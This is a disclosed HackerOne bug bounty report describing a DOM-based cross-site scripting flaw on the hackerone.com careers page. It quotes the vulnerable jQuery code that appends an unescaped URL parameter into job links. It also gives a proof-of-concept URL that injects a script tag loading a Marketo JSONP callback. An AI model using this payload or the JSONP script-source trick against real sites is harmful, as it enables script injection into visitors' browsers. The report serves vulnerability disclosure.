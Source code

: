 # Cross-site Scripting (XSS) on HackerOne careers page

## Report Details
- **Report ID**: 474656
- **URL**: https://hackerone.com/reports/474656
- **State**: Closed
- **Severity**: low
- **Submitted**: 2019-01-04T13:49:31.861Z
- **Disclosed**: 2019-02-17T23:18:46.382Z

## Reporter
- **Username**: nguyenlv7
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
Dear HackerOne team,
**Summary:**
I found DOM XSS at endpoint `https://www.hackerone.com/careers`, but can not bypass CSP. It's work on IE and Edge.

### Steps To Reproduce
- JS file is "Masonry js file", vulnerability code:

```javascript
//Checking for potential Lever source or origin parameters
var pageUrl = window.location.href;
var leverParameter = '';
var trackingPrefix = '?lever-'

if( pageUrl.indexOf(trackingPrefix) >= 0){
  // Found Lever parameter
  var pageUrlSplit = pageUrl.split(trackingPrefix);
  leverParameter = '?lever-'+pageUrlSplit[1];
}
```
```javascript
 var link = posting.hostedUrl+leverParameter;
    
    	jQuery('#jobs-container .jobs-list').append(
      '<div class="job '+teamCleanString+' '+locationCleanString.replace(',', '')+' '+commitmentCleanString+'">' +
        '<a class="job-title" href="'+link+'"">'+title+'</a>' +
        '<p class="tags"><span>'+team+'</span><span>'+location+'</span><span>'+commitment+'</span></p>' +
        '<p class="description">'+shortDescription+'</p>' +
        '<a class="btn" href="'+link+'">Learn more</a>' +
      '</div>'  
    
      );
```
-  `link` variable is append by jquery.
- POC: `https://www.hackerone.com/careers?lever-#aaa"><script src="https://app-sj17.marketo.com/index.php/form/getForm?callback=alert"></script>`

### Optional: Your Environment (Browser version, Device, etc)

 * IE, Edge (because url is encoded on firefox and chrome)

### Optional: Supporting Material/References (Screenshots)
 {F400895}
{F400896}

## Impact

* XSS but can not bypass CSP
* inject html code

## Attachments
- dom_xss_h1.JPG
- inject_html.JPG
